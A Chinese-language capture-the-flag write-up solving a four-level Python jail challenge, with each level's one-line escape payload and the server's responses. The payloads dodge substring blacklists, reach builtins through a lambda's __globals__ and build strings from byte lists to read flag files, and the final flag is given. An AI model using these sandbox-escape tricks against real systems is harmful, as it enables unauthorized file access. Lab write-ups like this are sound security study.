




# 68 Pyjali · Misc

- 分类：Misc ｜ 分值：220 ｜ 状态：平台已解
- 一句话考点：四层 Python jail 过滤逐级收紧（无过滤 → 拉黑 `open` → 拉黑 `__builtins__` → 禁掉引号），每关读 `/flagN.txt` 里的口令，回填口令才进下一关。

## 题目

- 平台入口：`nc <平台给的地址> <端口>`（动态容器，本次实例是 `103.85.23.250:32312`，重开实例端口会变）。
- 题面只有一句话，落款 `--chen`。
- 连上后是一个带计分板 banner 的交互 jail，共四级，每关给一个口令文件：

| 关卡 | 名称 | 分值 | 过滤 |
| --- | --- | --- | --- |
| 1 | Hello, Jail | 100 | 无 |
| 2 | Read Me | 200 | 拉黑 `open` 子串 |
| 3 | No Builtins | 250 | 再拉黑 `__builtins__` |
| 4 | Silent Escape | 300 | 再禁掉引号 |

每关的流程都一样：读 `/flagN.txt` 拿到口令 → 把口令原样粘贴回车 → 进下一关；四关都过之后才给最终 flag。

## 思路

1. 第 1 关没有任何过滤，`print(open('/flag1.txt').read())` 一行就出。
2. 第 2 关只做子串黑名单，`'op'+'en'` 拼出来的字符串不在黑名单里，能直接过。
3. 第 3 关连 `__builtins__` 都不能出现，从 `lambda` 的 `__globals__` 里摸到真正的 builtins 字典。
4. 第 4 关禁引号，用 `bytes([...]).decode()` 现场造出 `__builtins__`、`open`、`/flag4.txt` 三个字符串。
5. 每关打印出来的只是口令，服务端要你把口令再输一遍才判过关；第四关口令回填后，服务端直接打印 flag。

## 关键步骤

一条连接走到底，中途不重连；下面每关的 payload 都是一行能敲完的。

### 1. Hello, Jail

```text
$ nc 103.85.23.250 32312
  ────── LEVEL 1 ──────  Hello, Jail
  难度 [#----------]   分值 100   flag -> /flag
  热身关：没有过滤，用 Python 把口令文件读出来。
  本关口令文件: /flag1.txt  （里面是口令，不是最终 flag）

[stage 1] >>> print(open('/flag1.txt').read())
52459a31bedadde6

None
[stage 1] >>> 52459a31bedadde6
  ✔ 第 1 关通过（Hello, Jail）
```



### 2. Read Me

```text
  ────── LEVEL 2 ──────  Read Me
  难度 [###--------]   分值 200   flag -> /flag
  open 这个词被拉黑了，但黑名单只是找子串。
  本关口令文件: /flag2.txt  （里面是口令，不是最终 flag）

[stage 2] >>> print(__builtins__['op'+'en']('/flag2.txt').read())
52ed864f77f4e2f0

None
[stage 2] >>> 52ed864f77f4e2f0
  ✔ 第 2 关通过（Read Me）
```



### 3. No Builtins

```text
  ────── LEVEL 3 ──────  No Builtins
  难度 [######-----]   分值 250   flag -> /flag
  这次连 __builtins__ 这个词也不许出现了。
  本关口令文件: /flag3.txt  （里面是口令，不是最终 flag）

[stage 3] >>> print((lambda:0).__globals__['__buil'+'tins__']['op'+'en']('/flag3.txt').read())
2fa871174e3e465b

None
[stage 3] >>> 2fa871174e3e465b
  ✔ 第 3 关通过（No Builtins）
```



### 4. Silent Escape

引号全禁，字符串只能用 `bytes([...]).decode()` 拼；这一行很长，终端会折行，但它仍是一行输入。

```text
  ────── LEVEL 4 ──────  Silent Escape
  难度 [#########--]   分值 300   flag -> /flag
  引号不能用了，你还能造出字符串吗？
  本关口令文件: /flag4.txt  （里面是口令，不是最终 flag）

[stage 4] >>> print((lambda:0).__globals__[bytes([95,95,98,117,105,108,116,105,110,115,95,95]).decode()][bytes([111,112,101,110]).decode()](bytes([47,102,108,97,103,52,46,116,120,116]).decode()).read())
5e0d013d3071d802

None
[stage 4] >>> 5e0d013d3071d802
  ✔ 第 4 关通过（Silent Escape）

====================================================
  四关全部通过 —— 这是你的 flag：

  S3C{6174e4255386}
====================================================
```



## Flag

```text
S3C{6174e4255386}
```

## 踩坑 / 备注

- 四关都是单行 payload，没有任何一关需要写脚本，也没有用到自动化循环。
- 每关打印完口令后会紧跟一行 `None`，那是 `print()` 的返回值；看到 `None` 再粘贴口令最稳，否则容易把下一次输入喂进同一个 prompt。
- 口令是实例级的静态值，重开容器会变；上面记录的是本次实例的真实值。
- 本文回显取自这次真实连接的原始记录：Windows 上没有 `nc`，用 TCP 直连同一入口、逐关发送上面这几行 payload 并原样保存服务端输出，等价命令即开头那条 `nc`。
